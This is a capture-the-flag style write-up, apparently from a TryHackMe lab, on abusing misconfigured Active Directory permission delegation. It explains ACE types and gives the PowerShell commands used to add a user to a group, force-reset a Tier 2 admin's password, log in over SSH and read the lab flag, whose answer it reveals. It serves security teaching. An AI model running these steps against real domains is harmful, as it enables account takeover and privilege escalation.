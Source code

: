 # Permission Delegation

Active Directory can delegate permissions and privileges through a feature called Permission Delegation.

- Exploits are referred to as ACL-based attacks
- AD allows administrators to configure Access Control Entries (ACEs) that populate Discretionary Access Control Lists (DACLs), hence the name ACL-based attacks
- Any AD object can be secured with ACE
- ACEs describe the allowed/denied permissions that any other AD object has against the target object

- if any ACEs are misconfigured, it may be possible for an attacker to exploit them

Example:
- IT Support team are granted ForceChangePassword ACE over Domain Users group, this would be considered insecure
- Misconfiguration would allow them to reset passwords for privileged accounts

# Exploiting ACEs
- Significant amount of ACEs can be misconfigured

- Bloodhound documentation assists in explaining enumerated ACEs and how they can be exploited

https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#

### ForceChangePassword
- Ability to set the user's current password without knowing their current password

### AddMembers
- Ability to add users, groups, or computers to the target group

### GenericAll
- Control over the object
- Ability to change the user's password, register an SPN
- Add AD object to the target group

### Generic Write
- Update any non-protected parameters of our target object
- Update the scriptPath parameter, which would cause a script to execute the next time the user logs on

### Write Owner
- Ability to update the owner of the target object
- Ability to assign ourselves as the owner, allowing us to gain additional permissions over the object

### Write DACL
- Ability to write new ACEs to the target object DACL
- Write ACE that grants our account full control over the target object

### AllExtendedRights
- Perform any action associated with extended AD rights against the target object



In order to exploit these ACEs, we need a method to interact with AD to make these requests:
- AD-RSAT PowerShell
- PowerSploit

# Bloodhound
Use the files provided in the room and upload to Bloodhound

<pre>sudo neo4j console start </pre>

![Alt text](../../Images/Bloodhound.png)

# Privilege Escalation

- justin.barnes is a member of Domain Users
- Domain is tiered
- Need to compromise the Tier 2 Admins group since this group has administrative privileges on all workstations

![Alt text](<../../Images/Justin Barnes Membership.png>)

- Administrator has misconfigured the Permission Delegation of the IT Support group by providing the Domain Users group with AddMembers ACE
- Any member of the Domain Users group can add accounts to the IT Support group
- IT Support group has the ForceChangePassword ACE for Tier 2 Admin group members

![Alt text](<../../Images/Justin Barnes Membership 2.png>)

## AddMembers
- Add our AD account (justin.barnes) to IT Support group

<pre>PS C:\>Add-ADGroupMember "IT Support" -Members "justin.barnes" </pre>

- Verify that justin.barnes has been added to IT Support group

<pre>PS C:\Users\justin.barnes> Get-ADGroupMember -Identity "IT Support" | select name

name             
----
brenda.black
reece.noble
paula.bailey
barbara.reid
christine.hall
irene.leach
ruth.dale
adrian.boyle
michael.cameron
nicholas.pearson
justin.barnes
max.smith
 </pre>

 ## ForceChangePassword
- justin.barnes is now a member of IT Support group
- Inherit the ForceChangePassword Permission Delegation over Tier 2 Admin group
- Identify the members of this group to select a target

<pre>PS C:\Users\justin.barnes> Get-ADGroupMember -Identity "Tier 2 Admins" | select name

name               
----
t2_lawrence.lewis
t2_leon.francis
t2_henry.harvey
t2_june.russell
t2_kathleen.mills
t2_irene.nash
t2_henry.shaw
t2_alan.riley
t2_jordan.hawkins
t2_ross.bird
t2_robin.wyatt
t2_caroline.dawson
t2_melanie.davies
 </pre>

 - Target account: t2_robin.wyatt
 - Use the Set-ADAccountPassword AD-RSAT cmdlet to force change the password

 <pre>PS C:\Users\justin.barnes> $Password = ConvertTo-SecureString "Password.123" -AsPlainText -Force

PS C:\Users\justin.barnes> Set-ADAccountPassword -Identity "t2_robin.wyatt" -Reset -NewPassword $Password </pre>

- Authenticate to THMWRK1 (10.200.63.248) using account t2_robin.wyatt

<pre>ssh t2_robin.wyatt@10.200.63.248</pre>

<pre>za\t2_robin.wyatt@THMWRK1 C:\Users\t2_robin.wyatt>whoami
za\t2_robin.wyatt</pre>

What is the value of the flag stored on the Desktop of the Administrator user on THMWRK1 (flag1.txt)?
<pre>za\t2_robin.wyatt@THMWRK1 C:\Users\t2_robin.wyatt>cd C:\Users\Administrator\Desktop

za\t2_robin.wyatt@THMWRK1 C:\Users\Administrator\Desktop>more flag1.txt
THM{Permission.Delegation.FTW!}
</pre>